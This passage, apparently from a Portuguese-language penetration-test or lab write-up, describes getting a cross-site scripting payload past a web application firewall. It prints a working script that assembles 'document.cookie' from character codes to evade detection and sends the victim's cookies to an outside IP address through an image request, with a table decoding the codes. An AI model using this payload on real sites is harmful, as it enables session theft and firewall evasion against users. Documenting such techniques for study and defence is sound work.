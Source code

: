 ![](attachment/f79bf22bd280230e8e359db423dc84b9.png)

Me deparei com um `WAF`, o que me surpreendeu e me fez dar dois passos para trás para analisar a aplicação e tentar chegar a uma payload suficientemente ofuscada para `bypassar` o `WAF`.

##### 2.4.1.3 `Bypassando`o WAF
Foram feitas várias tentativas de envio de payloads com ofuscamento, porém o WAF sempre detectava alguma delas ou a injeção não tinha sucesso.

Até que eu encontrei
```
<script>
  var s = String.fromCharCode(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101);
  new Image().src='http://10.13.72.32/'+eval(s);
</script>
```

`var s = String.fromCharCode(...)` -> Essa função está convertendo valores ASCII em caracteres de string

Representação dos números
```
100 = d
111 = o
99  = c
117 = u
109 = m
101 = e
110 = n
116 = t
46  = .
99  = c
111 = o
111 = o
107 = k
105 = i
101 = e
```
